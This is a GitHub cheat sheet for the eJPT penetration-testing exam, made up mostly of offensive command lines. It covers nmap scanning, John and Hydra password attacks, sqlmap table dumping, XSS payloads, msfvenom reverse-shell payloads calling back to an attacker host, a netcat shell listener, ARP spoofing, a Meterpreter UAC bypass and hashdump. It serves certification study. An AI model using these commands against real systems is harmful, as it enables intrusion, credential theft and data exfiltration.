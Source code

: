 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT exam.\

### Nmap\
nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial\
nmap -A -p- -iL targets -oN nmap.aggressive\
nmap -p<port> --script=vuln -v <target-IP>\

### fPing\
fping -a -g 10.10.10.0/24 > targets 2>/dev/null\

### IP Route\
**Syntax**\
*ip route add <Network-range> via <router-IP> dev <interface>*\
eg.\
ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0\

### John\
john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt\

### dirb\
dirb http://10.10.10.10/ \
dirb http://10.10.10.10/dir -u admin:admin

### Netcat\
**Listening for reverse shell**\
nc -nvlp 1234

**Banner Grabbing**\
nc -nv 10.10.10.10 <port>

### SQLMap\
#### Check if injection exists\
sqlmap -r Post.req\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"

#### Get database if injection Exists\
sqlmap -r login.req --dbs\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs\

#### Get Tables in a Database\
sqlmap -r login.req -D dbname --tables\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables\
sqlmap -r login.req -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

### Hydra\
**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
*You can use same for FTP, just replace ssh with ftp*

### XSS\
<script>alert(1)</script>\
<ScRiPt>alert(1)</ScRiPt>

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**HTTP POST Form**\
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

*You will know which wordlists to use when the time comes*

### msfvenom shells\
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### Metasploit Meterpreter autoroute\
run autoroute -s 10.10.10.0/24

### ARPSpoof\
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration
**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v\

**Access Share**\
smbclient //10.10.10.10/share_name\

### FTP Enumeration\
nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v\

**Login to FTP server**\
ftp 10.10.10.10\

### Meterpreter\
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM\

**CHECK UAC/Privileges**\
run post/windows/gather/win_privs\

**BYPASS UAC**\
*Background the session first*\
exploit/windows/local/bypassuac\
set session\

**After PrivEsc**\
migrate <pid>\
hashdump\
  
### Windows Command Line
**To search for a file starting from current directory**
dir /b/s "*.conf*\
dir /b/s "*.txt*\

**Check routing table**\
route print\
netstat -r\

**Check Users**\
net users\


